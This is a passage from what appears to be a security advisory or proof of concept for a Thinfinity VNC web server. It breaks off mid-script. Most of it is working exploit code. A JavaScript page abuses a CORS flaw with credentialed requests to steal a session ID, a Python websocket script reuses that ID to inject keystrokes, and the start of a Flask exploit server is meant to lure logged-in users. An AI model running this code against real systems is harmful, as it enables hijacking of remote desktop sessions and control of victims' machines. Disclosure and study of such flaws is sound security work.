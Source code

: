         }
    };

    // exfiltrate ID using CORS vulnerability

    // CHANGE THIS

    var server = "172.16.28.140:8081"
    xhttp.open("GET", "http://" + server + "/vnc/cmd?cmd=connect&wscompression=true&destAddr=&screenWidth=1308&screenHeight=741&orientation=90&browserWidth=654&browserHeight=627&supportCur=true&id=null&devicePixelRatio=1&isMobile=false&isLandscape=true&supportsFullScreen=true&webapp=false", true);
    xhttp.withCredentials = true;
    xhttp.send();
    }


    </script>

    </body>
    </html>
    ```

2. Create a web socket connection against the target
   server using the exfiltrated `ID`.
   The following PoC sends the Ctrl+Esc
   keystroke combination to the server.

    ```python
    from websocket import create_connection
    import time

    # CHANGE THIS
    id_str ="D6647736-7489-4FA3-9620-25F2DC7FA1F6"

    ws = create_connection("ws://172.16.28.140:8081/vnc/%7B" + id_str + "%7D")
    command = "cmd=fkey&key=CtrlEsc&id={" + id_str + "}"
    ws.send(command)
    ```

3. The exploit below can be used to send arbitrary
   commands to the server after the `ID` is exfiltrated.
   It uses the `ID` to hijack the VNC connection and send
   keystrokes or mouse moves to the server.

## Exploit

* Run the flask application and trick a user with
  a session in Thinfinity to visit the page.

```python

# export FLASK_APP=exploit_thinfinity
# flask run --host=0.0.0.0

from flask import Flask, request, redirect
from websocket import create_connection
import time
import socket

app = Flask(__name__)


# CHANGE THIS
server = "192.168.1.7:8081"


def current_ip():
```
